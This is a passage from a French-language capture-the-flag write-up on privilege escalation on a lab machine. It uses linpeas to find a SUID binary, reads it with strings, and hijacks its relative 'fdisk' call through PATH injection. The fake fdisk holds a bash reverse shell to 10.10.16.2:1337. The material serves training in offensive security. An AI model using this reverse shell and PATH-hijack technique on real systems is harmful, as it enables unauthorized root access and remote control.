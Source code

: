 ```bash
```

## Privilege Escalation

### SUID binary : /bin/sysinfo
On découvre que le binaire "/bin/sysinfo" a le bit SUID activé, grâce à l'énumeration avec **linpeas**.
```bash
theseus@magic:~$ cat linpeas.out | grep -i SUID

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
...
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary!)
...
```

### fdisk execution in /bin/sysinfo
Pour faire une attaque "PATH injection" sur le binaire **SUID**, j'ai pu utiliser strace, ltrace ou encore **strings**:
```bash
theseus@magic:~/bin$ strings /bin/sysinfo | less
/lib64/ld-linux-x86-64.so.2
libstdc++.so.6
__gmon_start__
_ITM_deregisterTMCloneTable
...
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
...
```
On observe l'execution de lshw, fdisk ou encore cat, sans le path absolu. Ex: /bin/cat. On peut donc faire une PATH injection. J'ai choisi de le faire avec fdisk.

### Creating fake "fdisk" binary with reverse shell

On crée un faux binaire **fdisk** dans le dossier **bin/** qu'on ajoute ensuite au **PATH** :
```bash
theseus@magic:~$ mkdir bin;cd bin
theseus@magic:~/bin$ nano fdisk
##!/bin/bash
bash -i >& /dev/tcp/10.10.16.2/1337 0>&1
theseus@magic:~/bin$ export PATH="/home/theseus/bin:$PATH"
```
